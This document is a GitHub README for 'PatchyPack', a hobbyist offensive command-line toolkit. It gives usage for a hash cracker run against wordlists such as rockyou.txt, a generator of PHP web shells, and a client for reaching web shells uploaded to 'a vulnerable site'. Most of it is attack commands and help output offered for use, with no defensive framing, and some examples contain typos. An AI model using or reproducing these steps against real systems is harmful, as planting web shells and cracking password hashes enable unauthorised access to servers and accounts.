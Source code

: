 # PatchyPack [Alpha]
Patchy Pack [Alpa]. A set of command line tools for anything from port scanning to web shell generation.
Patchy Pack is far from finished with many more updates, features, and bug fixes on the way.
## Reccomended OS: Linux
# Installation
After downloading the PatchyTools folder run the setup script for setting up aliases/shortcuts:
```
chmod +rwx setup
./setup
```
While you're in the PatchyTools directory give permissions to the genshell bash script. This script is responsible for generating php webshells.
```
chmod +rwx genshell
```
Note that you'll have to close and reopen the current shell session or run:
```
source .bash_profile
```
This will let the changes take effect. Bash profiles may vary. 
Next, run the make.py script for installing necessary dependencies and packages:
```
python3 make.py
```
# Intro
Check out the options for Patchy Pack by typing: 
```
patchy
```
Further Usage and examples can be found on: https://patchyst.github.io/patchy/ (I haven't finished documentation on the tools yet :/)

# Cracking Hashes with Patchy Pack
So far Patchyhash can crack a variety of hashing algorithims such as md5, sha512, sha256, sha224, sha1, sha384, and DES.
 ## Usage and examples:
```
$ patchyhash -h

usage: patchyhash [-h] [-ht HASH_TYPE] [-s SALT] [-va] [-v]
                          hash_path dict_path

positional arguments:
  hash_path             Path to password hash file
  dict_path             Path to password dictionary file

optional arguments:
  -h, --help            show this help message and exit
  -ht HASH_TYPE, --hash_type HASH_TYPE
                        specify hash type
  -va, --viewall        View all passwords and hashes being compared. usage
                        example: --viewall Y
  -v, --version         show program's version number and exit
```
The positional arguments are required. The first is the path to the file containing the target hash. The second positional argument is the wordlist for pathcyhash to check against. If no hashing algorithim is specified patchyhash defaults to md5
Example:
```
patchyhash ~/md5password.txt ~/worlists/rockyou.txt
```
Optional arguments include salt, hash type, and an option to view all hashes being checked against target hash.
```
patchyhash ~/shapassword.txt ~/worlists/rockyou.txt --hast_type sha256 --viewall
```
* --viewall: view all hashes compared with target hash
* --hash_type: specify hashing algorithim (in this case sha256)
```
patchyhash ~/shapassword.txt ~/worlists/rockyou.txt -ht sha256 -va
```
* -va: Same as view all
* -ht: same as hashtype
# Generating and Accessing Web Shell with Patchy Pack
Before accessing a web shell we have to generate it. As of now. patchygen only generates php based webshells.
```
$ patchygen -h
Desc: Used to generate a webshell
Required Usage: patchygen webshell_file webshell_name
Optional Usage: [-p]: set a password for php shell
	example: patchygen shell.php shell -p passw0rd!
		 patchygen /root/webshells/myshell.php nameofmyshell
```
To generate a simple php webshell with no password just give a the webshell file path and the desired shell name:
```
patchygen ~/webshells/shell.php shellname
```
Upload the webshell to a vulnerable site and access it manually using a get request or patchyshell for easier access.
```
patchyshell http://somesite.com/shell.php shellname
```
patchyshell help page:
```
usage: accessshell.py [-h] [--password PASSWORD] target_url shell_name

positional arguments:
  target_url           The target URL
  shell_name           Name of shell

optional arguments:
  -h, --help           show this help message and exit
  --password PASSWORD  password for shell
  ```
  To generate a webshell with a password simply add -p option
```
patchygen ~/webshells/shell.php shellname -p passw0rd!
```
Once again this can be manually accessed from the browser. However, patchyshell makes it much easier to access and use the shell:
```
patchyshell http://somesite.com/shell.php shellname --password passw0rd!
```
